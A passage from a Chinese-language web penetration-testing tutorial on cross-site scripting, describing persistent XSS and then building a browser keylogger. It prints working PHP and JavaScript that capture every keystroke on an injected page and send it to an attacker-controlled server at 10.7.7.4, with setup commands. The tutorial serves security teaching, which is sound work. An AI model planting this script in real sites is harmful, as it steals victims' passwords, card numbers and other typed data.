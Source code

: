 如前所述，这样的攻击不会改变 Web 服务器上的文件，只有运行恶意脚本的用户才能注意到这些变化。当利用持久性 XSS 时，篡改可能会影响大量用户，因为攻击者不需要逐个地针对每个受害者，这与反射型和基于 DOM 的 XSS 不同。无论哪种方式，这可能会导致用户将敏感信息提供给攻击者，同时认为他们正在提交给一个合法的网站。

# 键盘记录器

利用 XSS 收集用户敏感信息的另一种方法是将浏览器转变为一个键盘记录器，捕获每个按键并将其发送到攻击者控制的服务器。这些按键可能包含用户在页面中输入的敏感信息，如姓名、地址、密码、秘密问题和答案、信用卡信息等，具体取决于受攻击页面的目的。

我们将使用预先安装在 Kali Linux 中的 Apache Web 服务器，以便将按键存储在文件中，以便我们在利用 XSS 后可以检查受攻击应用程序发送的按键。服务器将有两个文件：`klog.php`和`klog.js`。

这是`klog.php`文件的外观：

```
<?php 
  if(!empty($_GET['k'])) { 
    $file = fopen('keys.txt', 'a'); 
    fwrite($file, $_GET['k']); 
    fclose($file); 
  } 
?> 
```

这是`klog.js`文件的外观：

```
var buffer = []; 
var server = 'http://10.7.7.4/klog.php?k=' 
document.onkeypress = function(e) { 
  buffer.push(e.key); 
} 
window.setInterval(function() { 
  if (buffer.length > 0) { 
    var data = encodeURIComponent(buffer); 
    new Image().src = server + data; 
    buffer = []; 
  } 
}, 200); 
```

在这里，`10.7.7.4`是 Kali Linux 机器的地址，所以受害者将把缓冲区发送到该服务器。此外，根据系统的配置，您可能需要在代码中指定的路径中创建`keys.txt`文件。在这个例子中，它是 Web 根目录(`/var/www/html/`)。此外，添加写权限或将所有权设置为 Apache 的用户，以防止 Web 服务器在尝试更新本地文件时出现权限错误：

```
touch /var/www/html/keys.txt
chown www-data /var/www/html/keys.txt
```

这是键盘记录器的最简单版本。更复杂的版本可能包括以下内容：

+   捕获的时间戳

+   发送信息的用户或机器的标识符

+   将键保存到数据库以便查询、分组和排序

+   控制功能，如启动和停止键盘记录器，触发特定键或组合的操作
